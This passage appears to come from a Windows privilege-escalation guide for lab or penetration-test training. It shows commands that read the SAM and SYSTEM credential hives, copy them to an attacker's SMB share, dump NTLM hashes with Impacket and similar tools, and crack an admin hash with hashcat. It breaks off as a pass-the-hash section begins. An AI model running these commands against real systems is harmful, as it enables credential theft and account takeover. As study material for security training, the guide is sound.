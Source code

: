 3. Found the credentials inside the file we can simply use winexe to spawn a shell as the admin user, or system

### <mark style="color:blue;">SAM/SYSTEM Files</mark>

Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.

The SAM and SYSTEM files are located in the **C:\Windows\System32\config** directory. The files are locked while Windows is running. Backups of the files may exist in the following directories:

* &#x20;C:\Windows\Repair
* &#x20;C:\Windows\System32\config\RegBack

1. Backups of the SAM and SYSTEM files can be found in C:\Windows\Repair and are readable by our user.
2. Copy the files back to Kali:

```
> copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
> copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\
```

We can also extract a copy of the SAM and SYSTEM files using reg.exe:

```
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

3. Starting with secretsdump.py (**recommended**), which is also part of the Impacket Suite of Tools, we can dump the NL and NTLM hashes using the following command:

```
# impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

We can alternatively use samdump2 (**not recommended**) to dump the hashes the same way, the command is simply:

```
# samdump2 SYSTEM SAM
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```
# python3 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```
# hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

### <mark style="color:blue;">Passing the Hash</mark>

We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash.
